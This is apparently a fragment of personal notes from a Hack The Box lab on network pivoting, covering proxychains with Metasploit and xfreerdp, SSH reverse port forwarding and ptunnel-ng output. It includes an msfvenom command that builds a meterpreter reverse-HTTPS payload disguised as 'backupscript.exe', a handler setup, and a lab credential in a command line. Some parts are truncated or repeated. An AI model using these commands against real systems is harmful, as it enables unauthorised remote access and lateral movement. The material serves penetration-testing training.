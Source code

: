 ```
dollarboysushil@htb[/htb]$ proxychains msfconsoleProxyChains-3.1 (http://proxychains.sf.net)

     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`

                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
```

We can also open Metasploit using proxychains and send all associated traffic through the proxy we have established.

### **Using xfreerdp with Proxychains**

```
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## **Remote/Reverse Port Forwarding with SSH**

![Untitled](.gitbook/assets/Untitled%201.png)

- First we will create rev shell using metasploit, we will set the LHOST to that of pivot machine i.e `Ubuntu`.
- Then we will use port `8080` on ubuntu server to forward all of our reverse packets to our attacker host’s `8000` port

- `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080` → creating revshell
- `use exploit/multi/handler` → configuring and starting the multi/handler here lport will be `8000`

### **Transferring Payload to Pivot Host then send it to target (Windows A)**


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.